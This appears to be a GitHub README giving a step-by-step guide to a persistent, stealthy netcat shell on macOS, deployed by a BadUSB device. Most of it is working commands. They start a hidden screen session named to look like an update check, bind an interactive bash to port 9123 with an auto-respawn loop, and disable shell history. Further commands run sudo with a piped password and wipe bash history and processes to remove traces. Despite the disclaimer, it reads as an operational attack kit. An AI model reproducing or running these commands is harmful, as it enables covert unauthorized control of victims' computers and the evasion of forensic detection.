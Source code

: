 # **Mac Endless Reverse Shell**

### **This guide is for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical.**

Interactive reverse shell on MacOS systems, leveraging **`nc`** (netcat). This approach is designed for stealth and efficiency, avoiding reliance on Python or any other non-standard tools on the target machine. Follow these steps carefully to maintain control over the target system discreetly.

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

Not used in the BadUSB script but good to have.

- **Initial Command:** This sets up a continuous loop that listens for incoming connections on port 9123, handling signals to clean up and exit gracefully if needed.

`screen -dmS upd_check bash -ic "unset HISTFILE; set +o history; trap 'rm -f /tmp/f; screen -S background_process -X quit; kill -SIGINT $$' EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f; [ -f /tmp/terminate ] && break || true; sleep 1; done"` 

The BadUSB Payload:

- **Enhanced Command:** Improves upon the initial setup by attempting to re-establish the reverse shell every 5 minutes, ensuring connectivity even if the session is disrupted.

`screen -dmS upd_check bash -ic 'unset HISTFILE; set +o history; trap "rm -f /tmp/f; screen -S background_process -X quit; killall nc 2>/dev/null; kill -SIGINT $$" EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f & sleep 300; pkill -f "nc -l 9123" 2>/dev/null && ps aux | awk "/bash -i/ && !/awk/ {print \$2}" | xargs kill -9; if [ -f /tmp/terminate ]; then break; fi; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash`
  
    `unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** After Switching to root execute this for not logging the commands.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that are related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

When using the **`script`** command to enhance the shell environment, there's a risk of leaving the reverse shell process in a suspended state if the session exits unexpectedly. This can occur because the **`script`** command initiates a new shell session for logging purposes, and if this session is not properly terminated (for instance, due to a network disconnection or closing the terminal without exiting the **`script`** session), the underlying process may continue to run without the ability to reconnect. To mitigate this risk and ensure the ability to reconnect, it's crucial to exit the **`script`** session using the **`exit`** command before ending your reverse shell session. This ensures that all processes are terminated properly and the shell is left in a state that allows for future connections.

For the clarification on the **`screen`** command and how the enhanced command improves reliability:

### **Clarification on `screen` Command:**

The enhanced **`screen`** command offers a significant improvement over the initial setup by incorporating a mechanism to automatically attempt re-establishment of the reverse shell connection every 5 minutes. This approach is particularly useful in scenarios where the reverse shell might be disrupted due to network instability or if the initial connection is accidentally closed. By using a loop that periodically kills the existing **`nc`** (netcat) listener and starts a new one, the command ensures that the attacker can regain access to the target machine without needing to re-deploy the payload. This auto-reconnect feature makes the reverse shell more resilient to disconnections and enhances its persistence on the target machine, ensuring that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure is designed for operational discretion and effectiveness. Ensure you have authorized access to the system before attempting this setup.***
